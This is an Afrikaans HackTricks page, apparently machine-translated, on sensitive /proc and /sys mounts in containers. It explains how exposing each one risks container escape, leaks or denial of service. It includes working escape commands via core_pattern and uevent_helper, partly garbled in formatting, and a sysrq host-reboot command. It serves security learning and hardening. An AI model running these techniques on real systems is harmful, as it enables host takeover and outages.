# Sensitiewe Monteerplekke

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS-familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFT's**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>

<figure><img src="../../../..https:/pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

Die blootstelling van `/proc` en `/sys` sonder behoorlike naamsruimte-isolasie stel beduidende sekuriteitsrisiko's bloot, insluitend aanvalsoppervlakvergroting en inligtingsoffergawe. Hierdie gids bevat sensitiewe lêers wat, indien verkeerd geconfigureer of deur 'n ongemagtigde gebruiker benader, kan lei tot kontainerontsnapping, gasverandering of inligting voorsien wat verdere aanvalle kan ondersteun. Byvoorbeeld, die verkeerd monter van `-v /proc:/host/proc` kan AppArmor-beskerming omseil as gevolg van sy padgebaseerde aard, wat `/host/proc` onbeskerm agterlaat.

**Jy kan verdere besonderhede van elke potensiële kwesbaarheid vind in** [**https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts**](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)**.**

## procfs Kwesbaarhede

### `/proc/sys`

Hierdie gids maak toegang moontlik om kernelveranderlikes te wysig, gewoonlik via `sysctl(2)`, en bevat verskeie subgidse van belang:

#### **`/proc/sys/kernel/core_pattern`**

* Beskryf in [core(5)](https://man7.org/linux/man-pages/man5/core.5.html).
* Maak dit moontlik om 'n program te definieer om uit te voer wanneer 'n kernlêer gegenereer word met die eerste 128 byte as argumente. Dit kan lei tot kode-uitvoering as die lêer begin met 'n pyp `|`.
*   **Toets- en Uitbuitingvoorbeeld**:

```bash
[ -w /proc/sys/kernel/core_pattern ] && echo Yes # Toets skryftoegang
cd /proc/sys/kernel
echo "|$overlay/shell.sh" > core_pattern # Stel aangepaste hanterer in
sleep 5 && ./crash & # Trigger hanterer
```

#### **`/proc/sys/kernel/modprobe`**

* Uiteengesit in [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).
* Bevat die pad na die kernelmodule-laaiers, aangeroep vir die laai van kernelmodules.
*   **Toegangkontrole-voorbeeld**:

```bash
ls -l $(cat /proc/sys/kernel/modprobe) # Kontroleer toegang tot modprobe
```

#### **`/proc/sys/vm/panic_on_oom`**

* Verwys in [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).
* 'n Globale vlag wat beheer of die kernel paniekerig word of die OOM-killer aanroep wanneer 'n OOM-toestand voorkom.

#### **`/proc/sys/fs`**

* Volgens [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html), bevat opsies en inligting oor die lêersisteem.
* Skryftoegang kan verskeie ontkenning-van-diens-aanvalle teen die gas moontlik maak.

#### **`/proc/sys/fs/binfmt_misc`**

* Maak dit moontlik om tolke vir nie-inheemse binêre formate te registreer op grond van hul toorgetal.
* Kan lei tot bevoorregte eskalasie of toegang tot die root-skoot as `/proc/sys/fs/binfmt_misc/register` skryfbaar is.
* Relevant uitbuit en verduideliking:
* [Armoedige man se rootkit via binfmt\_misc](https://github.com/toffan/binfmt\_misc)
* Diepgaande handleiding: [Video-skakel](https://www.youtube.com/watch?v=WBC7hhgMvQQ)

### Ander in `/proc`

#### **`/proc/config.gz`**

* Kan die kernelkonfigurasie onthul as `CONFIG_IKCONFIG_PROC` geaktiveer is.
* Nuttig vir aanvallers om kwesbaarhede in die lopende kernel te identifiseer.

#### **`/proc/sysrq-trigger`**

* Maak dit moontlik om Sysrq-opdragte aan te roep, wat moontlik onmiddellike stelselherlaaie of ander kritieke aksies kan veroorsaak.
*   **Stelselherlaaivoorbeeld**:

```bash
echo b > /proc/sysrq-trigger # Herlaai die gas
```

#### **`/proc/kmsg`**

* Stel kernelringbufferboodskappe bloot.
* Kan help met kernel-uitbuitings, adreslekke, en die voorsiening van sensitiewe stelselinligting.

#### **`/proc/kallsyms`**

* Lys kernel-uitgevoerde simbole en hul adresse.
* Essensieel vir kernel-uitbuitontwikkeling, veral vir die oorkom van KASLR.
* Adresinligting is beperk met `kptr_restrict` ingestel op `1` of `2`.
* Besonderhede in [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).

#### **`/proc/[pid]/mem`**

* Koppel met die kernelgeheue-toestel `/dev/mem`.
* Histories vatbaar vir bevoorregte eskalasie-aanvalle.
* Meer oor [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).

#### **`/proc/kcore`**

* Verteenwoordig die stelsel se fisiese geheue in ELF-kernformaat.
* Lees kan gasstelsel- en ander kontainergeheue-inhoud uitlek.
* 'n Groot lêergrootte kan lei tot leesprobleme of sagtewarestortings.
* Gedetailleerde gebruik in [Dumping /proc/kcore in 2019](https://schlafwandler.github.io/posts/dumping-/proc/kcore/).

#### **`/proc/kmem`**

* Alternatiewe koppelvlak vir `/dev/kmem`, wat die kernel virtuele geheue verteenwoordig.
* Maak lees en skryf moontlik, dus direkte wysiging van kernelgeheue.

#### **`/proc/mem`**

* Alternatiewe koppelvlak vir `/dev/mem`, wat fisiese geheue verteenwoordig.
* Maak lees en skryf moontlik, wysiging van alle geheue vereis die oplossing van virtuele na fisiese adresse.

#### **`/proc/sched_debug`**

* Gee prosesbeplanningsinligting terug, wat PID-naamsruimtebeskerming omseil.
* Stel prosesname, ID's, en cgroup-identifiseerders bloot.

#### **`/proc/[pid]/mountinfo`**

* Verskaf inligting oor koppelplekke in die proses se koppelnaamruimte.
* Stel die ligging van die kontainer `rootfs` of beeld bloot.

### `/sys` Kwesbaarhede

#### **`/sys/kernel/uevent_helper`**

* Gebruik vir die hanteer van kerneltoestel `uevents`.
* Skryf na `/sys/kernel/uevent_helper` kan arbitrêre skripte uitvoer tydens `uevent`-triggering.
*   **Voorbeeld vir Uitbuiting**: %%%bash

#### Skep 'n lading

echo "#!/bin/sh" > /evil-helper echo "ps > /output" >> /evil-helper chmod +x /evil-helper

#### Vind gaspad vanaf OverlayFS-koppelpunt vir kontainer

host\_path=$(sed -n 's/._\perdir=(\[^,]_).\*/\1/p' /etc/mtab)

#### Stel uevent\_helper in op skadelike helper

echo "$host\_path/evil-helper" > /sys/kernel/uevent\_helper

#### Trigger 'n uevent

echo change > /sys/class/mem/null/uevent

#### Lees die uitset

cat /output %%%
#### **`/sys/class/thermal`**

* Beheer temperatuurinstellings, moontlik veroorsaak DoS aanvalle of fisiese skade.

#### **`/sys/kernel/vmcoreinfo`**

* Lek kernel adresse, moontlik kompromitteer KASLR.

#### **`/sys/kernel/security`**

* Bevat `securityfs` koppelvlak, wat konfigurasie van Linux Security Modules soos AppArmor moontlik maak.
* Toegang kan 'n houer in staat stel om sy MAC-stelsel uit te skakel.

#### **`/sys/firmware/efi/vars` en `/sys/firmware/efi/efivars`**

* Blootstelling van koppelvlakke vir interaksie met EFI veranderlikes in NVRAM.
* Verkeerde konfigurasie of uitbuiting kan lei tot gebreekte draagbare rekenaars of onopstartbare gasheer-masjiene.

#### **`/sys/kernel/debug`**

* `debugfs` bied 'n "geen reëls" foutopsporingskoppelvlak na die kernel.
* Geskiedenis van sekuriteitskwessies as gevolg van sy onbeperkte aard.

### Verwysings

* [https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)
* [Begrip en Versterking van Linux Houers](https://research.nccgroup.com/wp-content/uploads/2020/07/ncc\_group\_understanding\_hardening\_linux\_containers-1-1.pdf)
* [Misbruik van Bevoorregte en Onbevoorregte Linux Houers](https://www.nccgroup.com/globalassets/our-research/us/whitepapers/2016/june/container\_whitepaper.pdf)

<figure><img src="../../../..https:/pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

<details>

<summary><strong>Leer AWS hak vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien jou **maatskappy geadverteer in HackTricks** of **laai HackTricks in PDF af** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PRs in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
